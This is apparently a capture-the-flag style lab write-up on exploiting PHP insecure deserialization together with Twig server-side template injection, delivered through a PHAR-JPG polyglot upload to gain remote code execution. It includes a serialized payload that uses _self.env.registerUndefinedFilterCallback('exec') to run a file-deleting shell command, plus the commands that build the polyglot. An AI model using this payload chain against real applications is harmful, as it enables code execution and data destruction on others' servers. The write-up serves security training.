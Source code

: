 In Blog.php, it uses Twig template engine, and there is a class called Blog.
The __wakeup() magic method is interesting for us, as it’ll automatically invoked during the deserialization process.
When the __wakeup() magic method is invoked, it’ll create a new object from Twig_Environment(), and it’s referring the Blog->desc attribute.
Armed with above information, we can exploit SSTI (Server-Side Template Injection) and using PHAR stream to gain remote code execution!
	• SSTI:

Now we have a SSTI payload, we can build a PHP payload:

<img width="1249" height="579" alt="image" src="https://github.com/user-attachments/assets/159ab062-4325-4eef-b7a7-bd30d594db2e" />



This payload will set a SSTI payload in the Blog->desc attribute, which will then parsed to CustomTemplate->template_file_path.
Finally, we can create a PHAR payload.
According to this GitHub repository, we can create a PHAR JPG ploygot:
```

┌[root♥siunam]-(/opt)-[2024.01.13|13:22:05]
└> git clone https://github.com/kunte0/phar-jpg-polyglot.git;cd phar-jpg-polyglot

```


<img width="990" height="779" alt="image" src="https://github.com/user-attachments/assets/77dc491c-ce58-4fac-b702-2145d59a1690" />




### phar_jpg_polyglot.php:


<img width="558" height="457" alt="image" src="https://github.com/user-attachments/assets/f24917af-9844-4a1c-9134-62627bbba927" />


Only change we have done in `phar_jpg_polyglot.php`:  github code is  pop exploit code


<img width="1265" height="559" alt="image" src="https://github.com/user-attachments/assets/d259b928-0db5-418b-8f35-65d0d18e0508" />




No run this in linux

```bash

┌[root♥siunam]-(/opt/phar-jpg-polyglot)-[2024.01.13|15:23:58]-[git://master ✗]
└> php -cphp.ini phar_jpg_polyglot.php
string(229)"O:14:"CustomTemplate":1:{s:18:"template_file_path";O:4:"Blog":2:{s:4:"user";s:17:"any_user_you_want";s:4:"desc";s:106:"\{\{_self.env.registerUndefinedFilterCallback("exec")\}\}\{\{_self.env.getFilter("rm /home/carlos/morale.txt")\}\}";}}"
┌[root♥siunam]-(/opt/phar-jpg-polyglot)-[2024.01.13|15:23:58]-[git://master ✗]
└> ls-lahout.jpg     
-rw-r--r--1 root root 132K Jan 13 15:23 out.jpg

```


Upload it and lab is solved:

<img width="1581" height="817" alt="image" src="https://github.com/user-attachments/assets/3ef76f97-41ba-4da1-b5d3-813291976019" />

----



---
